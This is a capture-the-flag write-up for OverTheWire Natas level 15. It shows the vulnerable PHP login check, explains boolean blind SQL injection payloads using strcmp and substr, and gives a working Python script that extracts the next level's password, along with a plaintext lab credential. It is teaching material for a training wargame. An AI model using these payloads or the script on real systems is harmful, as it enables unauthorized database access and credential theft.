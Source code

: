 # Level 15

URL : http://natas15.natas.labs.overthewire.org/index.php

## solution

here is the source code for this level:

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?> 
```

In this level we will be dealing with a Blind-based SQL injection (`a Boolean based one`).  
After inspecting the source code, we can see that no real data from DB is sent to us after query execution, but we only see three (3) possible responses.  
1. This user exists.
2. This user doesn't exist.
3. Error in query.


----------------------
### Password retrieval method 

1. get password length first

According to previous challenges, length for all passwords is 32 chars.We can verify this by injecting in username field the following payload.
I have already explained injection method in the previous writeup.
```sql
natas16" and length(password) = 32#
```
if the output is "This user exists.", then password length is indeed 32, else it is not (I know it is 32 )

To retrieve the password, we can use `LIKE` or `strcmp()` function of MySql.

Let's try something.

username: **natas16" and strcmp(BINARY substr(password, 1, 1), "W") = 0#**

If after the previous injection we get the output saying `This user exists.`, then we know that the first character of the password is indeed `W`.

- substr(password, 1, 1) gets the first character of the password column.
- strcmp(str1, str2) compares the strings `str1` and `str2`, returns the distance between the two operands.
- **BINARY** is used for case-sensitivity.


### Exploitation

Now that we know the logic behind the method, we can automate the injection.

Here is my python script to get the full password using binary search to speed things up.

```python
import requests
import string

password = ""
charset = "".join(sorted(string.ascii_letters + string.digits))

pass_len = 32 # you can check it using this payload natas16" and length(password) = 32#

charset_len = len(charset)

URL = "http://natas15.natas.labs.overthewire.org/index.php"
s = requests.Session()
s.auth = ("natas15", "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J")
payload = {"username": ""}
# let's use binary search to speed things up

for i in range(1, 32+1):
    lo = 0
    hi = charset_len - 1
    while True:
        if (hi < lo):
            password += charset[lo]
            print("current password: {}".format(password))
            break
        index = (lo + hi) // 2
        possible_char = charset[index]
        payload["username"] = 'natas16" and strcmp(BINARY substr(password, {}, 1), "{}") > 0#'.format(i, possible_char)
        res = s.post(URL, data=payload)
        if res.status_code == 200:
            if "user exists" in res.text:
                lo = index + 1
            else:
                hi = index - 1

```

We could have achieved the same work by using **LIKE BINARY**

Thanks for reading!










